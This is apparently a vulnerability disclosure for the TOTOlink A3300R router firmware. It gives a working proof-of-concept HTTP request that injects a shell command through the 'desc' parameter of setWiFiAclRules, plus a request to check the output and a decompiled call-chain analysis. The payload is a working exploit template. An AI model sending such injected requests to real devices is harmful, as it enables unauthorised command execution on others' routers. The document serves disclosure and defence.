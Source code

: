 # TOTOlink A3300R V17.0.0cu.557_B20221024 Command Injection

## Product Information

Device: TOTOlink A3300R
Firmware Version: V17.0.0cu.557_B20221024
Manufacturer's website information：https://www.totolink.net/
Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/241/ids/36.html

![image-20240109124617070](D:\typora 图片\image-20240109124617070.png)

## Vulnerability Description

When deal with  `setWiFiAclRules` request,`desc` parameter is vulnerable to OS command injection.

### POC

```
POST /cgi-bin/cstecgi.cgi?token=C6F41C563E86A379 HTTP/1.1
Host: 192.168.0.1
Content-Length: 130
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.0.1
Referer: http://192.168.0.1/advance/acl.html?token=C6F41C563E86A379
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: uid=eER8ohUW; PrivateKey=73756ACCDA18C09131DFDF6F7C5AA16B; timeout=2
Connection: close

{"mac":"14:16:9E:CC:BB:3F","desc":"funny-mud-peee`ls>/web/cmdi15.txt`","addEffect":"1","wifiIdx":"0","topicurl":"setWiFiAclRules"}
```

injection the command "ls>/web/cmdi15.txt"

![b0870a83252c01cad4f1774f3961469](D:\typora 图片\b0870a83252c01cad4f1774f3961469.png)

check the result.

```
GET /cmdi15.txt HTTP/1.1
Host: itotolink.net
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close

```

![46f04bf4acc9820a9576fd78c1b6857](D:\typora 图片\46f04bf4acc9820a9576fd78c1b6857.png)

## Analysis

sub_4217E0 will handle the `setWiFiAclRules` request. sub_4217E0 get `desc` parameter from request body, then pass to `Uci_Set_Str` function.

![image-20240119144150895](D:\typora 图片\image-20240119144150895.png)

`Uci_Set_Str` function Splicing uci command, and pass to `CsteSystem` function.

![image-20240109131204077](D:\typora 图片\image-20240109131204077.png)

`CsteSystem` wraps the command and then passes it to `execv` to execute the command.

![image-20240109131330610](D:\typora 图片\image-20240109131330610.png)

